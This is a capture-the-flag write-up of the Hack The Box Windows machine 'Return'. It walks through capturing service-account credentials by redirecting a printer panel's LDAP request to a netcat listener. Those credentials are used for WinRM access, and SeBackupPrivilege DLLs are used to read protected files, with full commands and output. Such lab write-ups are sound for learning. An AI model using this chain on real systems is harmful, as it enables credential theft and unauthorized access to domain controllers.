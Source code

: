 ```yaml
---
title: "Return"
date: 09-03-2025
categories: [Windows, Easy]
tags: [Easy, AD, SeBackUpPriv]
image: https://labs.hackthebox.com/storage/avatars/defa149ea7e259a4709a03a5825e970d.png
---
```


Return is an easy Windows machine. It has a lot of ports open which might be overwhelming at first but if you enumerate carefully you can quickly discard ports until you only have one clear route to get the foothold. After getting credentials for the **svc-printer** user we can use the **SeBackupPrivilege** this user has to read any file in the system without administrator level permissions. 

![return_info_card](assets/images/return/Return.png)

## Footprinting

Running an nmap scan on the target shows that this is an active directory machine and it is the domain controller machine. I assume this because I see that port 88 is open which is used by the KDC to grant TGT's. As usual with Windows machines we have SMB left open and we can try signing in with null credentials. It is also worth noting that the server has a webpage in port 80 which we will investigate later on. The other two interesting ports are 389 and 47001 which are LDAP and WinRM respectively.  
![return](assets/images/return/Pasted image 20250309192028.png)

#### SMB

I always try to enumerate as much as I can with SMB since it can be a quick win and we can get interesting files. Since we do not have credentials we can try logging in with a null session. 

```
smbclient -N -L 10.10.11.108
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.108 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We see that it allows us to login but it does not list any shares. I tried again with the default guest account some Windows machines have enabled with the credentials `Guest:` but the account was disabled. I also tried to use `rpcclient` to try to enumerate the system further but this time the null session did not let me in. At this point I could not proceed with SMB and I focus my attention somewhere else. I tend to leave potentials SMB exploits after I have enumerated everything and discarded other potential entry points.

#### Webpage

The page is a printer admin panel, the only page that has useful information is the settings page. I see that it has some data already filled in. It would have been pretty easy if the password was already filled in but the `*****` is just a placeholder. From this already filled out form we get a username `svc-printer` the form seems to be making a request to `printer.return.local` which is a subdomain of the host. 
![return](assets/images/return/Pasted image 20250302193758.png)

Using `burpsuite` I intercept the request to examine its contents. I was expecting to see a password change request but it is a simple POST request to `settings.php` with the following field:  `ip=printer.return.local`. The first thing I did was set up a listener on my box to see if I get any sort of connection back from the server. `nc -lvnp 389` I click update and we get a connection with the following data.

```
listening on [any] 389 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 58395
0*`%return\svc-printer�
                       1edFg43012!!

```

#### Enumerating Users and Groups

We clearly see the credentials that were hidden on the webpage. We can try enumerating the system now with `netexec` and the credentials `svc-printer:1edFg43012!!`. Using the `--users` flag we can enumerate the users in the box.

```
netexec  smb 10.10.11.108 -u svc-printer -p '1edFg43012!!' --users
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.108    445    PRINTER          Administrator                 2021-07-16 15:03:22 0       Built-in account for administering the computer/domain 
SMB         10.10.11.108    445    PRINTER          Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.108    445    PRINTER          krbtgt                        2021-05-20 13:26:54 0       Key Distribution Center Service Account 
SMB         10.10.11.108    445    PRINTER          svc-printer                   2021-05-26 08:15:13 0       Service Account for Printer 
SMB         10.10.11.108    445    PRINTER          [*] Enumerated 4 local users: RETURN
```

We see that there are only four Users three of which are defaults in Active Directory machines. If there were more users I would try enumerating further maybe running bloodhound and enumerating potentially intersting groups or ACLs but since this is an easy machine and we already have the credentaisl for the only user on the box we can now login into the machine using `evil-winrm` with the credentials of the user. 

```
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

## Privilege Escalation

After getting the initial foothold as the `svc-printer` user I try to enumerate what privileges this user has with the command: `whoami /priv` and we get the following list.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

I spot that this user has the `SeBackUpPrivilege` enabled. There is a very easy way to use this privilege to read any file in the system. I used this [exploit](https://github.com/giuliano108/SeBackupPrivilege) and using `evil-winrrm's` upload functionality I transfer the two dll files we need to exploit this privilege. We now have all the tools necessary to perform this exploit, we just need to import both modules. 

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc-printer\desktop> import-module .\SeBackupPrivilegeUtils.dll
```

Using the following command we can now transfer any file to our current directory and read it. In this case I simply copied the root flag but in a real scenario we would have copied the SAM database or any other file that would contain sensitive information from which we would further attack the system.

```
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\root.txt' .\root.txt
```